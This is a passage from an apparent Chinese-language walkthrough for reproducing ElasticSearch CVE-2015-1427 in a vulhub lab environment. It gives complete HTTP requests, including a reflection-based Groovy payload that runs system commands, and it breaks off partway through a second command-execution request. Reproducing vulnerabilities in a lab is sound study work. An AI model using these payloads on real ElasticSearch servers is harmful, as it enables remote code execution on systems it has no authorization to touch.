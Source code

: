 参考：[ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境](https://github.com/vulhub/vulhub/tree/master/elasticsearch/CVE-2015-3337)
#### [ElasticSearch]CVE-2015-1427
```
jre版本：openjdk：8-jre
elasticsearch版本：v1.4.2
```
>CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：
1.是一个沙盒绕过;
2.是一个Goovy代码执行漏洞。

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：
```java
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```
![](https://img-blog.csdnimg.cn/20210308170122109.png)
利用反射机制执行JAVA代码Payload：
```java
POST /_search?pretty HTTP/1.1
Host: 192.168.91.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 489

{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
                "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getInputStream())).readLines()",

            "lang": "groovy"
        }
    }

}
```
![](https://img-blog.csdnimg.cn/2021030817114896.png)
利用Groovy语言，执行任意命令：
```java
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
```